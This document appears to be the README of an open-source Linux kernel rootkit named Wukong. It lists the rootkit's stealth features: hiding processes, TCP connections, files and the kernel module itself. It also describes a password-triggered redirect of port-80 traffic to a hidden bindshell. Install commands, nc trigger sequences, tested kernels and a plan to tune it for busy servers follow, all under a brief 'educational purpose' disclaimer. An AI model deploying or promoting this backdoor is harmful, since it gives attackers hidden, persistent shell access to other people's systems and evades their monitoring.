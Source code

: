 # Wukong: a LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x
The idea of wukong is from a comercail Linux Backdoor software, designed for a hacking team in early 2015 for legal using. Now for educational perpose, I will release an open source version. <strong>Please call me good man.</strong><br />
<br />
<h2>
	<span style="color:#E53333;">Note:</span>
</h2>
<span style="color:#E53333;"><strong>This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong></span><br />
<br />
<br />
<br />
<h2>
	Function
</h2>
1. Hide Linux Process.<br />
2. Hide TCP connection.<br />
3. Hide File/Directory.<br />
4. Hide wukong.ko.<br />
5. Redirect TCP connection to backdoor server by using the specific confidential password.<br />
<br />
<h2>
	Usage
</h2>
1. Environment:<br />
ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
2. Test step:<br />
a. on server<br />
cd wukong/<br />
sudo ./install.pl<br />
sudo nc -k -l 80<br />
<br />
b. on client<br />
nc 1.1.1.1 80<br />
http<br />
ifconfig<br />
PS：The connection will be redirected to bindshell<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
PS: a rst will be received.<br />
<br />
nc 1.1.1.1 80<br />
111111<br />
aaaaaa<br />
PS: The connection will be connected with tcp 80.<br />
<br />
3. Result:<br />
a. Bindshell file is hidden.<br />
b. Tcp 8000 connection is hidden.<br />
c. Bindshell process is hidden<br />
c. wukong.ko is hidden<br />
e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.<br />
<br />
<br />
<h2>
	Tested OS:
</h2>
CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
<br />
<h2>
	ToDo:
</h2>
&nbsp;&nbsp;&nbsp; Do performance tuning, make it can work on Linux server with large traffic.<br />
&nbsp;&nbsp;&nbsp; Adding more features.
